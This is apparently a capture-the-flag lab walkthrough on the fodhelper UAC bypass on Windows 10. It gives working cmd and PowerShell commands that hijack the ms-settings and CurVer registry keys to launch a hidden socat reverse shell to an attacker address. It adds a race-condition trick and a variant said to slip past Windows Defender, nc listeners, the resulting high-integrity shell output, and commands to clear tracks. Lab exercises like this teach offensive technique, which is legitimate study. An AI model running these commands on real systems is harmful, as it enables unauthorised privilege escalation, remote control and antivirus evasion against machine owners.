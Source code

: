 # Bypassing Windows Defender with the Fodhelper Exploit

## Windows Defender

For simplicity, the target machine initially has Windows Defender **disabled**. But what happens if it is **enabled**?

1. **Enable Windows Defender:**  
    On the desktop, double-click the icon to enable Windows Defender.

2. **Attempt the Fodhelper Exploit Again:**  
    Exploit fodhelper through your backdoor connection. As you change the `(default)` value in `HKCU\Software\Classes\ms-settings\Shell\Open\command` to your reverse shell command, a Windows Defender notification will appear.

3. **Review the Alert:**  
    Clicking the notification reveals details about a UAC bypass attempt via registry modification.

4. **Check the Registry Value:**  
    ```cmd
    reg query %REG_KEY% /v ""
    ```
    Output:
    ```
    HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
         (Default)    REG_SZ    (value not set)
    ```
    The value is erased by Defender.

Although it seems the exploit fails with Defender enabled, try the following with a slight modification (replace `<attacker_ip>` as needed):

```cmd
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY%
```

Output:
```
HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
     DelegateExecute    REG_SZ    
     (Default)    REG_SZ    powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes
```

Windows Defender still alerts and deletes the value, but there is a short window before deletion. Set up a listener:

```bash
nc -lvp 4444
```

Then run:

```cmd
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

If executed quickly, you may get a reverse shell before Defender intervenes. This method is unreliable, as it depends on a race condition.

**Example reverse shell:**
```
user@kali$ nc -lvp 4444      
Listening on 0.0.0.0 4444
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Windows Defender still alerts on the bypass. The exploit is easily detected due to the specific registry keys used.

---

## Improving the Fodhelper Exploit

A variation by **@V3ded** uses different registry keys but the same principle.

- Instead of `HKCU\Software\Classes\ms-settings\Shell\Open\command`, use the `CurVer` entry under a custom progID.
- Create a new progID (e.g., `.pwn`) and point `ms-settings\CurVer` to it.

**PowerShell Exploit (replace `<attacker_ip>`):**
```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force

New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force

Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

- This creates a new progID `.pwn` with your payload and points `ms-settings\CurVer` to it.
- Fodhelper uses the `.pwn` progID and executes your command.

**Listener:**
```bash
nc -lvp 4445
```

**Detection:**  
Windows Defender may still alert, but AVs often target published exploits and may miss variations.

**CMD Variant (less likely to be detected):**
```cmd
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
fodhelper.exe
```

**Resulting shell:**
```
user@kali$ nc -lvp 4445      
Listening on 0.0.0.0 4445
Connection received on 10.10.183.127 23441
Microsoft Windows [Version 10.0.17763.1821]
C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

**Retrieve the flag:**
```cmd
C:\> C:\flags\GetFlag-fodhelper-curver.exe
```
*Note: The flag is only returned from a high integrity shell via socat.*

---

## Clearing Tracks

Remove artefacts with:

```cmd
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

*Be sure to clean up to avoid interference with future tasks.*